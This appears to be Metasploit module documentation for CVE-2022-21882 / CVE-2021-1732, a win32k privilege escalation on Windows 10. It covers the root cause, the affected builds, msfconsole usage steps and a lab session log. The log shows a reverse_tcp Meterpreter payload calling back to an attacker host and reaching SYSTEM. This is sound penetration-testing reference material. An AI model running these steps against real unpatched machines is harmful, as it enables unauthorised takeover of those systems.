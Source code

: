 ## Vulnerable Application
A vulnerability exists within win32k that can be leveraged by an attacker to escalate privileges to those of
NT AUTHORITY\SYSTEM. The flaw exists in how the WndExtra field of a window can be manipulated into being
treated as an offset despite being populated by an attacker-controlled value. This can be leveraged to
achieve an out of bounds write operation, eventually leading to privilege escalation.

This flaw was originally identified as CVE-2021-1732 and was patched by Microsoft on February 9th, 2021.
In early 2022, a technique to bypass the patch was identified and assigned CVE-2022-21882. The root cause is
is the same for both vulnerabilities. This exploit combines the patch bypass with the original exploit to
function on a wider range of Windows 10 targets.

Windows 10 builds 17134 (v1803) through 19041 (v20H1) will use the original technique from CVE-2021-1732, leveraging
`user32!CreateWindowEx` to trigger the `xxxClientAllocWindowClassExtraBytes` hook and corrupt the target window. Windows
10 builds 19042 (v20H2) through 19044 (v21H2) will use the updated technique from CVE-2022-21882, leveraging
`win32u!NtUserMessageCall` to trigger the `xxxClientAllocWindowClassExtraBytes` hook for the same effect.

### Installation And Setup
Windows 10 versions 1803 through 21H2 (without the patch) are vulnerable out of the box. This exploit module has been
tested on Windows 10 versions 1803, 1909, 20H1, 20H2 and 21H2.

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2022_21882_win32k`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 21H2 Build 19044.1288 x64

```
msf exploit(windows/local/cve_2022_21882_win32k) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-SRAQBLH\smcintyre
meterpreter > sysinfo
Computer        : DESKTOP-SRAQBLH
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] stdapi_sys_config_getuid: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(windows/local/cve_2022_21882_win32k) > set SESSION -1
SESSION => -1
msf exploit(windows/local/cve_2022_21882_win32k) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_21882_win32k) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf exploit(windows/local/cve_2022_21882_win32k) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 6840 launched.
[*] Reflectively injecting the DLL into 6840...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.87
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.87:52622 ) at 2022-02-18 14:34:00 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-SRAQBLH
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
